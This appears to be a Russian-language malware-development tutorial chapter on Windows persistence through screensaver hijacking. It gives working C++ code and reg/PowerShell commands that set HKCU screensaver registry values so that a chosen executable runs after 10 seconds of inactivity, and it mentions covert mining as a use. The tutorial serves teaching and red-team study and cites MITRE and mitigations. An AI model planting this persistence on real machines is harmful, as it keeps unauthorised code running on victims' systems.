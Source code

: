 \newpage
\subsection{68. Разработка вредоносного ПО: закрепление (persistence) - часть 2. Захват экранной заставки. Пример на C++.}

![pers](./images/52/2022-04-27_03-07.png){width="80%"}    

Этот пост - вторая часть серии статей о техниках и трюках закрепления вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования ещё одного трюка закрепления: злоупотребление экранными заставками.    

### экранные заставки

Экранные заставки - это программы, которые запускаются после заданного времени бездействия пользователя. Эта функция Windows давно используется злоумышленниками как метод персистентности. Экранные заставки - это PE-файлы с расширением `.scr` по умолчанию, а их настройки хранятся в следующих ключах реестра:    

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive`    

![pers](./images/52/2022-04-27_03-23.png){width="80%"}    

Значение `1` включает экранную заставку.

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut` - задаёт    
тайм-аут бездействия пользователя перед запуском экранной заставки.    
`HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE` - устанавливает     
путь к приложению для выполнения.    

### практический пример

Рассмотрим практический пример. Допустим, у нас есть *"вредоносное ПО"* из [предыдущей](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) части `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, 
HINSTANCE hPrevInstance, LPSTR lpCmdLine, 
int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Скомпилируем его:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/52/2022-04-27_02-04.png){width="80%"}    

Сохраним его в папку `Z:\\2022-04-26-malware-pers-2\`:    

![pers](./images/52/2022-04-27_03-29.png){width="80%"}    

Теперь создадим скрипт `pers.cpp`, который создаст ключи реестра для запуска `hack.exe` при бездействии пользователя `10` секунд:    

```cpp
/*
pers.cpp
windows low level persistense via screensaver
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/04/26/malware-pers-2.html
*/
#include <windows.h>
#include <string.h>

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, 
char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, 
    (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-26-malware-pers-2\\hack.exe";
  // timeout
  const char* ts = "10";
  // activation
  const char* aact = "1";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, 
    REG_SZ, (unsigned char*)aact, strlen(aact));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, 
    REG_SZ, (unsigned char*)ts, strlen(ts));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, 
    REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видите, логика здесь самая простая. Мы просто добавляем новые ключи реестра для тайм-аута и пути к приложению. Ключи реестра можно добавить через терминал `cmd`:    

```cmd
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE \
/d Z:\2022-04-26-malware-pers-2\hack.exe
```

или с помощью команд `powershell`:

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' \
-Name 'SCRNSAVE.EXE' -Value \
'Z:\2022-04-26-malware-pers-2\hack.exe'
```

Но так как я люблю писать код, я хотел показать, как сделать это с помощью нескольких строк кода.    

### Демонстрация

Скомпилируем наш скрипт `pers.cpp`:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/52/2022-04-27_02-06.png){width="80%"}    

Для чистоты эксперимента сначала проверим ключи реестра на машине жертвы и удалим их, если они существуют:    

```powershell
reg query "HKCU\Control Panel\Desktop" /s
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
```

![pers](./images/52/2022-04-27_03-43.png){width="80%"}    

![pers](./images/52/2022-04-27_03-48.png){width="80%"}    

Затем запускаем `pers.exe` и проверяем снова:   

```powershell
.\pers.exe
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](./images/52/2022-04-27_04-14.png){width="80%"}    

Как видите, новый ключ добавлен, как и ожидалось.    
Теперь проверим всё в действии: выйдем из системы, войдём снова и подождём `10` секунд или просто остаёмся неактивными `10` секунд:    

![pers](./images/52/2022-04-27_04-13_1.png){width="80%"}    

Pwn! Всё работает идеально :)    

После завершения эксперимента удаляем ключи:    

```powershell
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" \
-Name 'SCRNSAVE.EXE'
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](./images/52/2022-04-27_04-18.png){width="80%"}    

### заключение

Проблема этого метода закрепления в том, что сессия завершится, когда пользователь вернётся и система перестанет быть неактивной. Однако красные команды могут выполнять свои операции (например, майнинг) во время отсутствия пользователя. Если экранные заставки отключены групповой политикой, этот метод нельзя использовать для закрепления. Также можно заблокировать выполнение `.scr` файлов из нестандартных мест.

[This trick in MITRE ATT&CK](https://attack.mitre.org/techniques/T1546/002/)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[исходный код на github](https://github.com/cocomelonc/2022-04-26-malware-pers-2)    
